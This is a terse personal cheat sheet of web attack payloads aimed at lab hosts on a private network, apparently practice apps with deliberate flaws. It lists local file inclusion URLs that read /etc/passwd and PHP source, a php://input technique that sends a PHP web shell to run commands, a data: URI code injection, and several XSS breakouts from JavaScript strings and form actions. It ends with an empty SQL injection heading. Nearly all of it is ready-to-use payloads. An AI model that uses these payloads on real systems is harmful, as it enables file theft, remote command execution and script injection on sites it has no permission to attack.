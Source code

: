 
http://192.168.0.111/file_inclusion/local_file_inclusion/LFI-0/index.php?page=../../../../../../../etc/passwd

http://192.168.0.111/file_inclusion/local_file_inclusion/LFI-0/index.php?page=php://input&cmd=ls


Post Data ==>
<?php
	system($_GET['cmd']);
?>



Read the php file in LFI
http://192.168.0.111/file_inclusion/local_file_inclusion/LFI-1/index.php?goto=php://filter/convert.base64-encode/resource=login


http://192.168.0.111/file_inclusion/local_file_inclusion/LFI-2/index.php?file=data:text/html,%3C?php%20phpinfo%28%29;?%3E


XSS

aaa "+" bbbb
var $a = ""+ alert(0) + "";
var $a = "";alert(0)//";

"";alert(0);

</script><script>alert(0);</script>

var aa = "hacker" + alert(0) + "dfdsfsd "

http://192.168.0.113/xss/example6.php?name=aaa" %2b alert(0) %2b "dfdsf


http://192.168.0.113/xss/example7.php?name=aaa' %2b alert(0) %2b 'dfds




php set /">
before ==> form action is
<form action="/xss/example8.php" method="POST">

after put http://192.168.0.113/xss/example8.php/aaaaaa
form action is ==>
<form action="/xss/example8.php/aaaaaa" method="POST">


http://192.168.0.113/xss/example8.php/"> <script>alert(0)</script>
<form action="/xss/example8.php/"> <script>alert(0)</script>" method="POST">


locaton.hash.substring




SQL Injection==>
1.UNION BASE 
String
Integer
